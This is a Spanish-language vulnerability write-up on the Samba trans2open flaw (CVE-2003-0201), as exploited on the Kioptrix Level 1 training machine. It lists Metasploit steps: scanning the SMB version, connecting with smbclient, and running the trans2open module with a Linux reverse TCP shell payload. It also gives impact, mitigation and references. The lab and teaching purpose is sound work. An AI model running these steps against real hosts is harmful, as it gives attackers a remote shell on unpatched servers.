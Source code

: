 #  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
Obtener  versión del protocolo smb

1. Acceder a la consola de metasploit a través del comando msfconsole en la terminal
2. Ejecutar el módulo smb_version con el comando “use auxiliary/scanner/smb/smb_version”  
3. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
4. Ejecutar el comando “run” para obtener la versión del protocolo smb 

Establecer conexión con el protocolo smb

5. Modificar el archivo smb.conf agregando “client min protocol = NT1” al final del grupo global 
6. Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
7. Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 

Exploit 

8. Acceder a la consola de metasploit y buscar modulo trans2open ejecutando “search trans2open”
9.  Poner en uso el modulo trans2open ejecutando “use” más el número del módulo Linux
10. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
11. Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
12. Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable con el fin de bloquear el servicio para el que está destinado. Este ataque puede afectar, tanto a la fuente que ofrece la información como puede ser una aplicación o el canal de transmisión, así como a la red. En las redes, el peligro de un ataque basado en el protocolo SMB es particularmente alto, ya que, por motivos de compatibilidad, en la red suelen estar activadas todas las versiones de SMB, porque así lo requieren las impresoras u otros dispositivos de red conectados. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla.

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/


### PoC
